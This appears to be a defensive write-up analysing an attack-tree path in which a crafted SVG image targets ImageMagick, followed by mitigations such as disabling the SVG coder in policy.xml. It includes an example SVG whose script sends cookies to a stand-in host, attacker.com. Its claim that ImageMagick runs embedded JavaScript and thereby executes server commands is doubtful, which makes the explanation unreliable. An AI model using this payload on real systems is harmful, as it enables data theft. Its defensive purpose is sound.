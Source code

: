 ## Deep Analysis of Attack Tree Path: Craft Image with Malicious SVG

This document provides a deep analysis of the attack tree path "Craft Image with Malicious SVG" targeting applications utilizing the ImageMagick library. We will define the objective, scope, and methodology of this analysis before delving into the specifics of the attack path.

### 1. Define Objective

The primary objective of this deep analysis is to thoroughly understand the mechanics, potential impact, and mitigation strategies associated with the attack path "Craft Image with Malicious SVG" within the context of applications using the ImageMagick library. This includes:

*   Identifying the specific vulnerabilities within ImageMagick that enable this attack.
*   Analyzing the different attack vectors and techniques employed.
*   Evaluating the potential impact of a successful exploitation.
*   Providing actionable recommendations for development teams to prevent and mitigate this type of attack.

### 2. Scope

This analysis will focus specifically on the attack path:

**Craft Image with Malicious SVG (Scalable Vector Graphics)**

*   SVG files can contain embedded scripts. If ImageMagick processes SVGs without proper sanitization, malicious scripts can be executed.
    *   **Attack Vectors:**
        *   Embedding `<script>` tags or other executable content within SVG files that are processed by ImageMagick.
    *   **[CRITICAL NODE] Execute Arbitrary Commands via `<script>` or similar tags:** Successful exploitation allows executing arbitrary JavaScript or similar code within the context of the server-side processing.

This analysis will primarily consider server-side processing of SVG files by ImageMagick. While client-side vulnerabilities exist, the focus here is on the risks associated with server-side applications.

### 3. Methodology

This deep analysis will employ the following methodology:

*   **Literature Review:** Examining existing documentation, security advisories, and research papers related to ImageMagick SVG processing vulnerabilities.
*   **Code Analysis (Conceptual):** Understanding the general principles of how ImageMagick handles SVG files and identifying potential areas where sanitization might be lacking. While we won't be performing a full source code audit, we will leverage existing knowledge of ImageMagick's architecture and known vulnerabilities.
*   **Attack Vector Analysis:**  Detailed examination of the specific techniques used to embed malicious scripts within SVG files.
*   **Impact Assessment:**  Evaluating the potential consequences of successful exploitation, considering factors like data confidentiality, integrity, and availability.
*   **Mitigation Strategy Formulation:**  Developing practical and effective recommendations for preventing and mitigating this attack vector.

### 4. Deep Analysis of Attack Tree Path: Craft Image with Malicious SVG

**Attack Path Breakdown:**

1. **Attacker Action:** The attacker crafts a malicious SVG file. This file is designed to exploit vulnerabilities in how ImageMagick processes SVG content.
2. **Vulnerability Exploitation:** The malicious SVG file leverages the fact that SVG, being an XML-based format, can embed various types of content, including scripting elements like `<script>`.
3. **ImageMagick Processing:** The application using ImageMagick receives the malicious SVG file, likely as part of an image processing workflow (e.g., user uploads, automated processing).
4. **Lack of Sanitization:**  Crucially, if ImageMagick is not configured or implemented with proper sanitization measures, it will parse and potentially execute the embedded script within the SVG file.
5. **Arbitrary Command Execution:** The embedded script, if successfully executed, can perform various malicious actions, including executing arbitrary commands on the server where ImageMagick is running.

**Technical Details:**

*   **SVG Structure and `<script>` Tag:** SVG files are structured using XML tags. The `<script>` tag is a standard SVG element intended for adding interactivity to vector graphics. However, if ImageMagick's SVG parser doesn't properly isolate the execution context or sanitize the content within `<script>` tags, it can be exploited.
*   **Other Executable Content:** Beyond `<script>`, other SVG features or combinations of features might be exploitable depending on the specific version of ImageMagick and its configuration. This could include external entity references (XXE) if not properly disabled, or specific SVG filters or elements that trigger vulnerabilities in the processing engine.
*   **Execution Context:** The critical aspect is the execution context of the embedded script. If the script runs within the context of the server-side application processing the image, it gains access to the server's resources and permissions.

**[CRITICAL NODE] Execute Arbitrary Commands via `<script>` or similar tags:**

This node represents the successful exploitation of the vulnerability. The consequences of achieving this critical node are severe:

*   **Remote Code Execution (RCE):** The attacker gains the ability to execute arbitrary commands on the server. This is the most critical impact, as it allows the attacker to take complete control of the system.
*   **Data Breach:** The attacker can access sensitive data stored on the server, including databases, configuration files, and user data.
*   **System Compromise:** The attacker can install malware, create backdoors, and further compromise the system and potentially the entire network.
*   **Denial of Service (DoS):** The attacker can execute commands that consume system resources, leading to a denial of service for legitimate users.
*   **Lateral Movement:** From the compromised server, the attacker might be able to move laterally within the network to compromise other systems.

**Attack Vectors in Detail:**

*   **Embedding `<script>` tags:** This is the most straightforward approach. The attacker crafts an SVG file containing a `<script>` tag with malicious JavaScript code. For example:

    ```xml
    <svg xmlns="http://www.w3.org/2000/svg">
      <script type="text/javascript">
        // Malicious JavaScript code to execute a command
        var xhr = new XMLHttpRequest();
        xhr.open("GET", "http://attacker.com/collect_data?output=" + document.cookie, false);
        xhr.send();
      </script>
      <text x="0" y="15" fill="black">Hello, SVG!</text>
    </svg>
    ```

    In a vulnerable ImageMagick setup, processing this SVG could lead to the execution of the JavaScript code, potentially sending sensitive information to the attacker's server. More dangerous commands could also be executed depending on the server's environment.

*   **Exploiting other SVG features:** Depending on the ImageMagick version and enabled delegates, other SVG features could be exploited. For instance, if external entity processing is enabled, an attacker could use XXE to read local files or trigger server-side request forgery (SSRF).

**Impact Assessment:**

The impact of successfully exploiting this vulnerability is **critical**. The ability to execute arbitrary commands on the server can lead to a complete compromise of the application and the underlying infrastructure. The potential consequences include:

*   **Confidentiality Breach:** Sensitive data is exposed to unauthorized access.
*   **Integrity Breach:** Data can be modified or deleted without authorization.
*   **Availability Breach:** The application or server can be rendered unavailable.
*   **Reputational Damage:** A successful attack can severely damage the reputation of the organization.
*   **Financial Loss:**  Data breaches and service disruptions can lead to significant financial losses.
*   **Legal and Regulatory Consequences:** Depending on the nature of the data compromised, there could be legal and regulatory repercussions.

**Mitigation Strategies:**

To prevent and mitigate this attack path, development teams should implement the following strategies:

*   **Disable Dangerous Coders:** ImageMagick uses "coders" to handle different image formats. Disable the `SVG` coder if SVG processing is not strictly necessary. This is the most effective way to prevent this attack vector. This can be done in the `policy.xml` file.

    ```xml
    <policymap>
      <policy domain="coder" rights="none" pattern="SVG" />
    </policymap>
    ```

*   **Sanitize SVG Input:** If SVG processing is required, implement robust sanitization techniques. This involves:
    *   **Removing `<script>` tags and other potentially executable elements:**  Use a dedicated SVG sanitization library or implement a strict whitelist of allowed SVG elements and attributes.
    *   **Disabling external entity processing:** Configure ImageMagick to prevent the loading of external entities.
    *   **Using a secure SVG parser:** Consider using a dedicated and well-vetted SVG parsing library instead of relying solely on ImageMagick's built-in capabilities for security-sensitive operations.

*   **Use Policy Files:**  ImageMagick's `policy.xml` file is crucial for security configuration. Use it to restrict access to potentially dangerous features and file system operations.

*   **Update ImageMagick Regularly:** Keep ImageMagick updated to the latest version. Security vulnerabilities are often discovered and patched, so staying up-to-date is essential.

*   **Principle of Least Privilege:** Run ImageMagick processes with the minimum necessary privileges to reduce the impact of a successful compromise.

*   **Input Validation:** Validate all user-supplied input, including image files, to ensure they conform to expected formats and do not contain malicious content.

*   **Content Security Policy (CSP):** If the processed images are displayed in a web browser, implement a strong Content Security Policy to mitigate the risk of client-side script execution.

*   **Security Audits and Penetration Testing:** Regularly conduct security audits and penetration testing to identify potential vulnerabilities in the application and its dependencies, including ImageMagick.

**Conclusion:**

The "Craft Image with Malicious SVG" attack path poses a significant risk to applications utilizing ImageMagick. The ability to execute arbitrary commands through embedded scripts within SVG files can lead to severe consequences, including data breaches and complete system compromise. Implementing robust mitigation strategies, particularly disabling the SVG coder when not needed and rigorously sanitizing SVG input when it is, is crucial for protecting applications from this type of attack. Regular updates, proper configuration using policy files, and adherence to the principle of least privilege are also essential security measures.